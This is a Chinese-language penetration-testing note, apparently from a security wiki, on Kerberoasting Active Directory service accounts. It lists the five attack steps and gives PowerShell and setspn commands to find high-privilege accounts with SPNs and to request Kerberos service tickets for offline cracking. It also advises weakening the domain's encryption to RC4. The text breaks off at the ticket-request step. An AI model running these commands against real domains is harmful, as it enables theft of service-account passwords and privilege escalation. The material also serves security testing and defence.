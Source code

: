 破解 Kerberos 服务票据（Client-To-Server Ticket）并重写它们，从而获得目标服务的访问权限的过程叫做 Kerberoast。该过程不需要和目标服务进行交互操作，合法访问活动目录的活动，就可以请求服务票据并导出，进行脱机破解得到服务账户的明文密码。

Kerberoast 攻击涉及五个步骤：
- SPN 扫描
- 请求 Client-To-Server Ticket
- 导出 Client-To-Server Ticket
- 破解 Client-To-Server Ticket
- 重写 Client-To-Server Ticket, 进行内存注入

进行 Kerberoast 攻击时，需要注意以下几点因素：

- 目标 SPN 服务是注册在域用户账户(Users)下
- 域用户账户的权限很高
- 密码最后设置时间
- 密码到期时间
- 最后一次登录时间
    ```
    net user administrator /domain  可查看
    ```

攻击者最感兴趣的是具有高权限用户组的服务帐户如域管理员组的成员。要快速列出高权限用户组的服务帐户的方法是枚举“AdminCount” 属性等于“1”的所有帐户。攻击者只需要向 AD 请求具有 SPN 且 AdminCount = 1 的所有用户帐户。

使用 Active Directory powershell 模块（域控制器一般会安装）中的 Get-ADUser cmdlet：
```powershell
import-module ActiveDirectory
get-aduser -filter {AdminCount -eq 1 -and (servicePrincipalName -ne 0)} -prop * |select name,whencreated,pwdlastset,lastlogon
```

对于没有安装的系统，可以通过以下命令导入 Active Directory 模块:
```powershell
import-module .\Microsoft.ActiveDirectory.Management.dll
```

Microsoft.ActiveDirectory.Management.dll 在安装 powershell 模块 Active Directory 后会生成，直接在域控上环境就能扣出来

使用 gpedit.msc 将域控上的组策略管理编辑器打开,`计算机配置-->Windows设置-->安全设置-->安全选项-->"网络安全: 配置 Kerberos 允许的加密类型"`，配置 Kerberos 的加密类型为 RC4，并运行 gpupdate 更新策略

**导出**

- https://github.com/nidem/kerberoast

使用 Kerberoast 中的 GeUserSPNs 进行扫描：
```bash
setspn.exe -q */*

# 或
.\GetUserSPNs.vbs
```

根据微软提供的类 KerberosRequeststorSecurityToken 发起 Kerberos 请求申请票据, 请求指定的 ST 票据:
```bash
Add-Type -AssemblyName System.IdentityModel
New-Object System.IdentityModel.Tokens.KerberosRequestorSecurityToken -ArgumentList "MSSQLSvc/Srv-DB-ffffffff0x.ffffffff0x.com:1433"

# 或请求全部票据
setspn.exe -T ffffffff0x.com -Q */* | Select-String '^CN' -Context 0,1 | % { New-Object System.IdentityModel.Tokens.KerberosRequestorSecurityToken -ArgumentList $_.Context.Post Context[0].Trim() }
```
